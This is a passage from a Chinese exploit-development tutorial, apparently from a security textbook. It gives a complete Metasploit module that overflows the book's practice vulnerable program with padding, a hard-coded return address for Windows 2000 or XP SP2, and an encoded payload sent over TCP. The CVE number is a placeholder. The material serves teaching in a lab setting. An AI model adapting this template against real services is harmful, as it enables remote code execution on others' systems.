 上节已经给出了一个包含所有基本信息的 exploit 漏洞测试模块。本节将在上节基础上给出一个更加“饱满”的模块，用于 POC 发布。

仍然以上节中的漏洞程序为测试目标。MSF 模块开发的思路基本一样，不同的只是在配置info 数据结构时“填写”更多的信息，让 POC 看起来更加完善，例如，作者信息、版本信息、漏洞描述信息、其他 URL 引用、CVE 引用等。

完善后的模块如下所示。
```ruby

#!/usr/bin/env ruby
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
    include Exploit::Remote::Tcp
    def initialize(info = {})
        super(update_info(info,
            'Name' => 'failwest_POC',
            'Version' => '1.0',
            'Platform' => 'win',
            'Privileged'=> true,
            'License' => MSF_LICENSE,
            'Author' => 'FAILWEST',
            'Targets' => [
                ['Windows 2000', {'Ret' => [200 , 0x77F8948B] }],
                ['Windows XP SP2',{'Ret' => [200 , 0x7C914393] }],
            ],
            'DefaultTarget' => 0,
            'Payload' => {
                'Space' => 200,
                'BadChars' => "\x00",
                'StackAdjustment' => -3500,
            },
            'Description' => %q{
                this module is exploit practice of book
                "Vulnerability Exploit and Analysis Technique"
                used only for educational purpose
            },
            'Arch' => 'x86',
            'References' => [
                [ 'URL', 'http://www.failwest.com' ],
                [ 'CVE', '44444' ],
            ],
            'DefaultOptions' => { 'EXITFUNC' => 'process' }
        ))
    end #end of initialize
    def exploit
        connect
        print_status("Sending #{payload.encoded.length} byte payload...")
        buf = 'a'*target['Ret'][0]
        buf << [target['Ret'][1]].pack('V')
        buf <<payload.encoded;
        sock.put(buf)
        handler
        disconnect
    end #end of exploit def
end
```
